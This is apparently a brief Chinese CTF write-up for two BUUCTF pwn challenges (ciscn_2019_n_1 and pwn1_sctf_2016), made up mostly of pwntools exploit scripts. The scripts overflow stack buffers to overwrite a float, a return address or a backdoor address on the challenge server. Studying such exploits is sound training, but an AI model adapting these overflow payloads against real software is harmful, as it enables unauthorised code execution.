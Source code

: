 ```python
```

## ciscn_2019_n_1
### 思路
可以覆盖栈中的浮点数，也可以直接覆盖返回地址

### exp
#### 覆盖浮点数
```python
from pwn import *
import struct

p = remote("node5.buuoj.cn",28058)
#p = process("./ciscn_2019_n_1")

payload = b'a'*44+struct.pack("<fx",11.28125)

p.sendline(payload)
p.interactive()
```

#### 覆盖返回地址
```python
from pwn import *

p = remote("node5.buuoj.cn",26493)
#p = process("./ciscn_2019_n_1")

catflag_addr = 0x4006be
payload = b'a'*56+p64(catflag_addr)

p.sendline(payload)
p.interactive()
```

## pwn1_sctf_2016
### 思路
程序中替换了输入中的'I'为'you'，并赋值回原位置，从而造成了栈溢出

### exp
```python
from pwn import *

p = remote('node5.buuoj.cn',26533)
backdoor = 0x08048F0D
payload = b'I'*20+b'aaaa'+p32(backdoor)
p.sendline(payload) 
p.interactive()
```
